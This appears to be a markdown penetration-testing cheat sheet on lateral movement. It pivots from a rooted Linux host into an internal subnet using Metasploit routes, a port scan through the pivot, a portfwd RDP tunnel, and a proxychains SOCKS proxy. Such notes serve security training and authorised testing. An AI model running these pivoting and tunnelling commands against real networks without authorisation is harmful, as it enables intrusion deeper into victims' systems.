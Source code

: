 


##  Lateral Movement


Pivoting allows us to move through the internal network easily and quickly, exploiting new hosts.  
### SCENARIO I (ssh, metasploit)
 You had gained **`root`** privilege over the **Linux Server** and conducted a **[host discovery](https://linuxhint.com/nmap-host-discovery-process/)** in the internal network that only the compromised host has access to. Now you want to **pivot through this host**. How to do it quickly?
![hot potato](https://miro.medium.com/v2/resize:fit:700/1*C7AQyP6h5rOKR2tCmvjzpg.png)
####  **Metasploit** 

 ** IP forwarding  **
```bash
### ON YOUR HOST IN MSFCONSOLE (10.10.10.1)
# PIVOT USING ROUTE COMMAND
route add 123.123.123.0/24 2
# PIVOT USING AUTOROUTE
use post/multi/manage/autoroute
set session 2
run
# PIVOT USING AUTOROUTE IN METERPRETER SESSION
meterpreter> run autoroute -s 123.123.123.0/24
#Check routes
meterpreter> run autoroute -p

#Port Scanning via Pivot:
### ON YOUR HOST IN MSFCONSOLE (10.10.10.1)
# CONDUCT TCP CONNECT SCAN
use auxiliary/scanner/portscan/tcp
set RHOSTS 123.123.123.0/24
set PORTS 1-1024
set THREADS 50
run

# If you want to connect with RDP using Metasploit Framework as a tunnel:
### METASPLOIT TUNNEL FROM LOCALHOST TO 123.123.123.1 FOR RDP
portfwd add –l 3389 –p 3389 –r 123.123.123.1
### CONNECT USING TUNNEL
rdesktop 127.0.0.1:3389
```

    
```bash
* **Proxy Setup (Metasploit + Proxychains):**
    - Set up Metasploit SOCKS4 proxy:
      - Module: `auxiliary/server/socks4a`
      - Set SRVHOST & SRVPORT (default is port 1080).
    - Configure Proxychains:
      - Update `/etc/proxychains.conf`: `socks4 127.0.0.1 1080`
      - check the proxy is running  ->` /meterpreter> jobs`  
    - Example command:
      - `proxychains nmap -sT -Pn -n <target IP> --top-ports 50` 
* **Access Services via Proxychains:**
    - SSH: `proxychains ssh <target IP>`
    - Telnet: `proxychains telnet <target IP>`
```
